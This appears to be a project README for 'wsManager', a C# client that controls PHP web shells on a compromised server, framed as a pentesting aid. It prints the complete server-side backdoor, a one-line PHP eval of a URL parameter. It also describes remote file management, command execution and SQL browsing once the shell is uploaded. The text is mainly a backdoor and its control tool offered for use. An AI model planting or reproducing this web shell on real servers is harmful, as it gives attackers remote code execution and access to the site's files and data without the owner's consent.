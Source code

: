 ## Information

wsManager can be used to quickly execute commands on a server when pentesting a PHP application. 
the client interface is written in C#, which operate on web-based backdoors implemented by user himself. 

Once uploaded, the web shell can be accessed by the client at any time. Once successfully connected, the user proceeds to manipulate files and data on the web server.

The server-side code is extremely simple and contains just a single line of code :
```php
<?php @eval($_GET["x"]); ?>
```

Many commands and control features:

  * File manager (upload, download, archiver, etc)
  * Command execution
  * SQL Explorer

## Documentation

Coming soon

## Screenshots

![](https://i.imgur.com/vDoTUUJ.png)
![](https://i.imgur.com/ZU4HJmd.png)
![](https://i.imgur.com/3I7Rjdf.png)
![](https://i.imgur.com/zbB5XTs.png)
![](https://i.imgur.com/VeRb4dN.png)

## Misc

Todo:
  * .
